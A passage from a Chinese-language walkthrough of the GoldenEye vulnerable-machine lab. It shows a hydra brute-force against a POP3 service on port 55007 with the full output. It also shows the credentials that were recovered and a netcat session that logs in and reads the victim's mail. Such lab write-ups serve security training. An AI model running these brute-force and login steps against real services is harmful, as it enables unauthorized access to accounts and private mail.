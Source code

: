 通过信息分析55006/55007端口，通过打开网页的方式，判断是55007的端口。

0x02:爆破并获取敏感信息

使用九头蛇爆破：



```shell
└─# hydra -L user.txt -P /usr/share/wordlists/fasttrack.txt pop3://192.168.1.5 -s 55007Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-06 18:53:09[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal![DATA] max 16 tasks per 1 server, overall 16 tasks, 444 login tries (l:2/p:222), ~28 tries per task[DATA] attacking pop3://192.168.1.5:55007/[STATUS] 80.00 tries/min, 80 tries in 00:01h, 364 to do in 00:05h, 16 active[55007][pop3] host: 192.168.1.5   login: boris   password: secret1![STATUS] 90.33 tries/min, 271 tries in 00:03h, 173 to do in 00:02h, 16 active[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
[55007][pop3] host: 192.168.1.5   login: natalya   password: bird1 of 1 target successfully completed, 2 valid passwords found[WARNING] Writing restore file because 2 final worker threads did not complete until end.[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```

截图如下：

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DUhsNEHL7710Lvohs9SeMQYTm5zVn6sgudiarpWeh00JpWBXavc7dq6g/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

得到两个账号和密码信息：

natalya:bird

boris:secret1!



```
telnet 192.168.1.5 55007nc 192.168.1.5 55007
```



```shell
┌──(root㉿kali)-[~/oscp/goldeneye]└─# nc 192.168.1.5 55007+OK GoldenEye POP3 Electronic-Mail Systemuser boris+OKpass secret1!+OK Logged in.list+OK 3 messages:1 5442 3733 921.retr 1+OK 544 octetsReturn-Path: <root@127.0.0.1.goldeneye>X-Original-To: borisDelivered-To: boris@ubuntuReceived: from ok (localhost [127.0.0.1])  by ubuntu (Postfix) with SMTP id D9E47454B1  for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)Message-Id: <20180425022326.D9E47454B1@ubuntu>Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)From: root@127.0.0.1.goldeneye
Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here..
retr 2+OK 373 octetsReturn-Path: <natalya@ubuntu>X-Original-To: borisDelivered-To: boris@ubuntuReceived: from ok (localhost [127.0.0.1])  by ubuntu (Postfix) with ESMTP id C3F2B454B1  for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)Message-Id: <20180425024249.C3F2B454B1@ubuntu>Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)From: natalya@ubuntu
Boris, I can break your codes!.
```